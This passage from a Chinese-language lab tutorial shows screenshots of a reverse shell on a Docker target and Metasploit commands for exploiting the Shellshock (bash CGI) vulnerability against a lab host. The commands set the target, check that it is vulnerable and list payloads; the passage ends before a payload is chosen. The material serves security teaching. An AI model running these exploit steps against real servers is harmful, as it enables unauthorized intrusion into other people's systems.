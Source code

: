 ![](attach/img/exploit-1.png)

下图是在 docker 宿主机上获得的反向连接shell执行命令的效果截图，证明我们已经拿到了远程靶机容器的一个普通用户权限shell。

![](attach/img/exploit-2.png)

### 使用metasploit

```bash
# on Kali
systemctl start postgresql
msfdb init
msfconsole
# 以下命令在 msfconsole 中输入

# 重建缓存是在后台执行的，需要很长时间
db_rebuild_cache

# 搜索 bash 相关exploit
# 在缓存没有重建完毕之前，会有一个警告信息提示如下，可以安全的忽略掉：
# [!] Module database cache not built yet, using slow search
search bash

use exploit/multi/http/apache_mod_cgi_bash_env_exec

# 查看所有可用配置参数
show options

set rhost 192.168.123.121
set TARGETURI /victim.cgi

# 先验证漏洞的可利用性
# 如果可利用，会显示： [+] 192.168.123.121:80 The target is vulnerable.
check

# 查看所有可用的攻击向量
show payloads

# 在 show options 的输出结果里会有类似以下输出
# Exploit target:
#
#   Id  Name
#   --  ----
#   0   Linux x86
```